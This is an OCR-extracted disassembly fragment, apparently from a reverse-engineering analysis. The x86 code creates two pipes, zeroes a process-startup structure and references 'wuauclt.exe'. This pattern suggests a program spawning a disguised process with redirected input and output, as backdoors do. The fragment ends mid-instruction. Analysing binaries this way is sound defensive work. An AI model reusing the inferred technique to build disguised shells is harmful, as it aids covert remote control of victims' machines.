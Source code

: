         004015df eb bb           JMP        LAB_0040159c
                             LAB_004015e1                                    XREF[1]:     004015c5(j)
        004015e1 8d 45 b8        LEA        EAX=>local_4c,[EBP + -0x48]
        004015e4 8b 35 1c        MOV        ESI,dword ptr [->KERNEL32.DLL::CreatePipe]       = 000022b0
                 20 40 00
        004015ea 53              PUSH       EBX                                              DWORD nSize for CreatePipe
        004015eb 50              PUSH       EAX                                              LPSECURITY_ATTRIBUTES lpPipeAttr
        004015ec 8d 45 d8        LEA        EAX=>local_2c,[EBP + -0x28]
        004015ef c7 45 b8        MOV        dword ptr [EBP + local_4c],0xc
                 0c 00 00 00
        004015f6 50              PUSH       EAX                                              PHANDLE hWritePipe for CreatePipe
        004015f7 8d 45 ec        LEA        EAX=>local_18,[EBP + -0x14]
        004015fa 50              PUSH       EAX                                              PHANDLE hReadPipe for CreatePipe
        004015fb 89 5d bc        MOV        dword ptr [EBP + local_48],EBX
        004015fe c7 45 c0        MOV        dword ptr [EBP + local_44],0x1
                 01 00 00 00
        00401605 ff d6           CALL       ESI=>KERNEL32.DLL::CreatePipe
        00401607 8d 45 b8        LEA        EAX=>local_4c,[EBP + -0x48]
        0040160a 53              PUSH       EBX                                              DWORD nSize for CreatePipe
        0040160b 50              PUSH       EAX                                              LPSECURITY_ATTRIBUTES lpPipeAttr
        0040160c 8d 45 e8        LEA        EAX=>local_1c,[EBP + -0x18]
        0040160f 50              PUSH       EAX                                              PHANDLE hWritePipe for CreatePipe
        00401610 8d 45 dc        LEA        EAX=>local_28,[EBP + -0x24]
        00401613 50              PUSH       EAX                                              PHANDLE hReadPipe for CreatePipe
        00401614 ff d6           CALL       ESI=>KERNEL32.DLL::CreatePipe
        00401616 6a 44           PUSH       0x44                                             size_t _Size for memset
        00401618 8d 85 34        LEA        EAX=>local_d0,[EBP + 0xffffff34]
                 ff ff ff
        0040161e 53              PUSH       EBX                                              int _Val for memset
        0040161f 50              PUSH       EAX                                              void * _Dst for memset
        00401620 e8 e5 05        CALL       MSVCRT.DLL::memset                               void * memset(void * _Dst, int _
                 00 00
        00401625 8b 45 dc        MOV        EAX,dword ptr [EBP + local_28]
        00401628 83 c4 0c        ADD        ESP,0xc
        0040162b 89 85 6c        MOV        dword ptr [EBP + local_98],EAX
                 ff ff ff
        00401631 8b 45 d8        MOV        EAX,dword ptr [EBP + local_2c]
        00401634 89 85 74        MOV        dword ptr [EBP + local_90],EAX
                 ff ff ff
        0040163a 89 85 70        MOV        dword ptr [EBP + local_94],EAX
                 ff ff ff
        00401640 8d 45 94        LEA        EAX=>local_70,[EBP + -0x6c]
        00401643 be e0 31        MOV        ESI,s_wuauclt.exe_004031e0                       = "wuauclt.exe"
                 40 00
        00401648 8d bd 78        LEA        EDI=>local_8c,[EBP + 0xffffff78]
                 ff ff ff
        0040164e 50              PUSH       EAX                                              LPPROCESS_INFORMATION lpProcessI
        0040164f 8d 85 34        LEA        EAX=>local_d0,[EBP + 0xffffff34]
                 ff ff ff
        00401655 c7 85 60        MOV        dword ptr [EBP + local_a4],0x101